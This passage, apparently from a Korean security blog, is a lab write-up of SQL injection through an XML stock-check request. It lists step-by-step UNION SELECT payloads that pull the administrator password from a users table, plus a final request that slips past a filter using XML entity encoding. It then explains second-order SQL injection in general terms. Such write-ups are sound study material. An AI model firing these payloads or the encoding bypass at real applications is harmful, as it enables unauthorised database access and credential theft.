 이제 `users` 테이블에서 관리자의 패스워드를 조회해보자. 우선, 데이터를 추출하기 위해 `storeId` 필드의 값을 이용하여 수행하는 SQL문의 구조를 파악해보자. 아래와 같은 일련의 과정을 통해 구조를 파악하고 패스워드를 찾아내었다. 요청을 보낼 때 필터링 되는 문자들은 모두 인코딩하여 요청하였다.

<br>

1. `1' --`

    정상적으로 재고를 조회하지 못하는 것으로 보아 storeId 필드가 문자열이 아니다.

2. `1 --`

    정상적으로 재고를 조회하지 하는 것으로 보아 storeId 필드는 숫자 데이터이다.

3. `1 UNION SELECT NULL --`

    ![image](https://github.com/1unaram/1unaram.github.io/assets/37824335/2a258731-cee1-409e-9334-3d658f6b143d)

    null을 출력하는 것으로 보아 해당 SQL문 결과의 컬럼 수는 1개이다.

4. `1 UNION SELECT password FROM users WHERE username='administrator' --`

    ![image](https://github.com/1unaram/1unaram.github.io/assets/37824335/a639f7c8-146c-4fe8-a3f0-98ff3b87fb70)

    administrator의 패스워드를 확인할 수 있다.

<br>

🔽 최종 XML 요청 값

```
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 &#x55;&#x4e;&#x49;&#x4f;&#x4e; &#x53;&#x45;&#x4c;&#x45;&#x43;&#x54; password FROM users WHERE username=&#x27;administrator&#x27; &#x2d;&#x2d;
        </storeId>
    </stockCheck>
```

<br><br>

# #Second-order SQL injection

1차 SQL 인젝션은 애플리케이션이 HTTP 요청의 사용자 입력을 처리하고 해당 입력을 안전하지 않은 방식으로 SQL 쿼리에 통합될 때 발생한다.

2차 SQL 인젝션은 애플리케이션이 HTTP 요청의 사용자 입력을 갖고 나중에 사용하기 위해 저장할 때 발생한다. 이는 입력 값을 데이터베이스에 배치하여 수행되는데, 데이터가 저장되는 시점에는 취약점이 발생하지 않는다. 이후에 다양한 HTTP 요청을 다룰 때, 애플리케이션이 저장된 데이터를 조회하고 안전하지 않은 방식으로 SQL 쿼리에 통합한다. 이러한 이유로 2차 SQL 인젝션은 stored SQL 인젝션으로 알려져 있다.

<br>

2차 SQL 인젝션은 개발자가 SQL 인젝션 취약점을 인지하고 데이터베이스에 대한 입력의 초기 배치를 안전하게 처리하는 상황에서 자주 발생한다. 데이터가 나중에 처리되면 이전에 데이터베이스에 안전하게 보관했기 때문에 안전하다고 간주된다. 이 시점에 개발자는 데이터가 신뢰할 수 있는 것으로 잘못 간주하기 때문에 데이터는 안전하지 않은 방식으로 처리된다.

<br><br>
